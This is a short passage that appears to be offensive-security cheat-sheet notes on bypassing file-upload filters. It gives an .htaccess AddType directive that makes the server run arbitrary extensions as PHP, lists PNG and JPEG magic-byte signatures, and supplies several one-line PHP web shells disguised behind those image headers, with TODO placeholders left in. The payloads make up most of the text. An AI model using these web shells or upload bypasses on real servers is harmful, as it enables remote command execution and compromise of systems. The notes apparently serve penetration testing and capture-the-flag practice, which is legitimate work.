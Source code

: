 Upload the `.htaccess` config file and specify the filename exactly as it is. For example when you want to upload a file with any extension to let the server read it as it was `.php` name it something like `.abc`.

```
AddType application/x-httpd-php .<any_extension>
AddType application/x-httpd-php PHP
```

TODO: Add the rest which are busybox, IIS, Python (refer to the links)

## Magic Bytes

TODO: Make a table of magic bytes

Check magic bytes with either `hexdump` or `xxd`.

### PNG

```
Hex Signature

89 50 4E 47 0D 0A 1A 0A

ISO 8859-1

‰PNG␍␊␚␊
```

```php
‰PNG␍␊␚␊
<?php echo system($_GET['cmd']); ?>
```

### JPG/JPEG

```
FF D8 FF EE

ÿØÿî

FF D8 FF E0

ÿØÿà

FF D8 FF E0 00 10 4A 46 49 46 00 01

ÿØÿà␀␐JFIF␀␁
```

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>


ÿØÿà
<?php echo system($_GET['cmd']); ?>


ÿØÿà␀␐JFIF␀␁
<?php echo system($_GET['cmd']); ?>
```
